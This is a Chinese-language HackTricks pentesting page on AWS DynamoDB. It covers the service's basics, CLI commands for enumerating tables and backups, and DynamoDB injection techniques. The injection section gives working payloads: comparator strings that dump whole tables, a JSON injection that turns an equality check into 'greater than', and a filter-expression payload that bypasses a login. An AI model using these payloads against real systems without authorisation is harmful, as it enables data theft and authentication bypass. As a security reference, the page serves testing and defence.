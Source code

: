 # AWS - DynamoDB 枚举

<details>

<summary><strong>从零开始学习 AWS 黑客技术，成为专家</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS 红队专家）</strong></a><strong>！</strong></summary>

支持 HackTricks 的其他方式：

* 如果您想看到您的**公司在 HackTricks 中做广告**或**下载 PDF 版本的 HackTricks**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
* 获取[**官方 PEASS & HackTricks 商品**](https://peass.creator-spring.com)
* 探索[**PEASS 家族**](https://opensea.io/collection/the-peass-family)，我们的独家[**NFTs**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**电报群组**](https://t.me/peass) 或在 **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)** 上关注我们**。
* 通过向 [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 来分享您的黑客技巧。

</details>

## DynamoDB

### 基本信息

Amazon DynamoDB 被认为是一种**完全托管、无服务器、键值 NoSQL 数据库**，专为驱动高性能应用程序而设计，无论其规模如何。该服务确保了强大的功能，包括固有的安全措施、不间断的备份、跨多个区域的自动复制、集成的内存缓存以及便捷的数据导出工具。

在 DynamoDB 的上下文中，**不是建立传统数据库，而是创建表**。每个表都要求指定一个**分区键**作为**表的主键**的一个组成部分。这个分区键，本质上是一个**哈希值**，在检索项目和在各个主机之间分发数据方面起着关键作用。这种分发对于维护数据库的可伸缩性和可用性至关重要。此外，还可以选择添加一个**排序键**来进一步细化数据组织。

### 加密

默认情况下，DynamoDB 使用属于**Amazon DynamoDB 的 KMS 密钥**，甚至不是至少属于您账户的 AWS 托管密钥。

<figure><img src="https://lh4.googleusercontent.com/JjtNS7aA-_GRMgZb4v93jWEQJi6DQdUPq0FEpzZPdeyCeNoG05p0NJiV9Zs-ULs_-Tfjmx0W1ZgsE2Ui2ljo7D-1a87Xny-gpLVQO0XmXdFoph9ci1RepbVNwaCe9oPruEZSEDxGTxF5dIv6pW1WpT6kWA=s2048" alt=""><figcaption></figcaption></figure>

### 备份 & 导出到 S3

可以**安排**生成**表备份**或根据**需求**创建备份。此外，还可以为表启用**恢复到某个时间点 (PITR)**。恢复到某个时间点提供了 DynamoDB 数据的**连续备份**，持续**35 天**，以帮助您防范意外的写入或删除操作。

还可以将**表的数据导出到 S3**，但需要**启用 PITR**。

### GUI

有一个用于本地 Dynamo 服务的 GUI，如 [DynamoDB Local](https://aws.amazon.com/blogs/aws/dynamodb-local-for-desktop-development/)、[dynalite](https://github.com/mhart/dynalite)、[localstack](https://github.com/localstack/localstack) 等，可能会很有用：[https://github.com/aaronshaf/dynamodb-admin](https://github.com/aaronshaf/dynamodb-admin)

### 枚举
```bash
# Tables
aws dynamodb list-tables
aws dynamodb describe-table --table-name <t_name> #Get metadata info
## The primary key and sort key will appear inside the KeySchema field

#Check if point in time recovery is enabled
aws dynamodb describe-continuous-backups \
--table-name tablename

# Backups
aws dynamodb list-backups
aws dynamodb describe-backup --backup-arn <arn>
aws dynamodb describe-continuous-backups --table-name <t_name>

# Global tables
aws dynamodb list-global-tables
aws dynamodb describe-global-table --global-table-name <name>

# Exports
aws dynamodb list-exports
aws dynamodb describe-export --export-arn <arn>

# Misc
aws dynamodb describe-endpoints #Dynamodb endpoints
```
### 未经身份验证的访问

{% content-ref url="../../aws-unauthenticated-enum-access/aws-dynamodb-unauthenticated-access.md" %}
[aws-dynamodb-unauthenticated-access.md](../../aws-unauthenticated-enum-access/aws-dynamodb-unauthenticated-access.md)
{% endcontent-ref %}

### 权限提升

{% content-ref url="../../aws-privilege-escalation/aws-dynamodb-privesc.md" %}
[aws-dynamodb-privesc.md](../../aws-privilege-escalation/aws-dynamodb-privesc.md)
{% endcontent-ref %}

### 漏洞利用后期

{% content-ref url="../../aws-post-exploitation/aws-dynamodb-post-exploitation.md" %}
[aws-dynamodb-post-exploitation.md](../../aws-post-exploitation/aws-dynamodb-post-exploitation.md)
{% endcontent-ref %}

### 持久性

{% content-ref url="../../aws-persistence/aws-dynamodb-persistence.md" %}
[aws-dynamodb-persistence.md](../../aws-persistence/aws-dynamodb-persistence.md)
{% endcontent-ref %}

## DynamoDB注入

### SQL注入

有方法可以使用**SQL语法**访问DynamoDB数据，因此，典型的**SQL注入也是可能的**。

{% embed url="https://book.hacktricks.xyz/pentesting-web/sql-injection" %}

### NoSQL注入

在DynamoDB中，可以使用不同的**条件**来检索数据，就像在常见的NoSQL注入中，如果可以**链接更多条件来检索**数据，您可以获取隐藏数据（或转储整个表）。\
您可以在这里找到DynamoDB支持的条件：[https://docs.aws.amazon.com/amazondynamodb/latest/APIReference/API\_Condition.html](https://docs.aws.amazon.com/amazondynamodb/latest/APIReference/API\_Condition.html)

请注意，如果通过**`query`**或**`scan`**访问数据，将支持**不同的条件**。

{% hint style="info" %}
实际上，**Query**操作需要在**主**键中指定**条件“EQ”（相等）**才能正常工作，这使其更不容易受到NoSQL注入的影响（也使操作非常有限）。
{% endhint %}

如果您可以**更改执行的比较**或添加新的比较，您可以检索更多数据。
```bash
# Comparators to dump the database
"NE": "a123" #Get everything that doesn't equal "a123"
"NOT_CONTAINS": "a123" #What you think
"GT": " " #All strings are greater than a space
```
### 原始Json注入

**DynamoDB**接受**Json**对象来在数据库中搜索数据。如果发现可以在发送到搜索的json对象中写入内容，就可以导出整个数据库的所有内容。

例如，在类似以下请求中进行注入：
```bash
'{"Id": {"ComparisonOperator": "EQ","AttributeValueList": [{"N": "' + user_input + '"}]}}'
```
{% endcode %}

攻击者可以注入类似以下内容：

`1000"}],"ComparisonOperator": "GT","AttributeValueList": [{"N": "0`

修复"EQ"条件，搜索ID为1000的数据，然后查找所有ID字符串大于0的数据，即所有数据。

### :property 注入

一些SDK允许使用字符串指示要执行的过滤操作，如：
```java
new ScanSpec().withProjectionExpression("UserName").withFilterExpression(user_input+" = :username and Password = :password").withValueMap(valueMap)
```
{% endcode %}

您需要知道，在DynamoDB中搜索**替换**扫描项目时**过滤表达式**中的属性**值**，令牌应该以**`:`**字符**开头**。这些令牌将在运行时**替换**为实际的**属性值**。

因此，类似上面的登录方式可以通过以下方式绕过：
```bash
:username = :username or :username
# This will generate the query:
# :username = :username or :username = :username and Password = :password
# which is always true
```
<details>

<summary><strong>从零开始学习AWS黑客技术，成为专家</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS红队专家）</strong></a><strong>！</strong></summary>

其他支持HackTricks的方式：

* 如果您想看到您的**公司在HackTricks中做广告**或**下载PDF格式的HackTricks**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
* 获取[**官方PEASS & HackTricks周边产品**](https://peass.creator-spring.com)
* 探索[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们的独家[**NFTs**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord群**](https://discord.gg/hRep4RUj7f) 或 [**电报群**](https://t.me/peass) 或 **关注**我们的**Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**。**
* 通过向[**HackTricks**](https://github.com/carlospolop/hacktricks)和[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。

</details>
